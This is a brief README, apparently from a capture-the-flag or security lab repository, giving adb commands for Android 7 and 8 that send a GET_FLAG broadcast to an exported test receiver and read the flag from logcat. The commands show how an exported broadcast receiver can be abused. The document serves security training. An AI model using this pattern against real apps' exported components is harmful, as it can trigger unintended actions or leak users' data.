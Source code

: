 # PwnExpReceiver



## Android7

```sh
adb shell am broadcast -a com.avss.testreceiver.GET_FLAG com.avss.testreceiver
adb logcat -d
```



## Android8

需要用`-n`指定组件名称。

```sh
adb shell am broadcast -a com.avss.testreceiver.GET_FLAG -n "com.avss.testreceiver/.MyBroadcastReceiver"
adb logcat -d
```

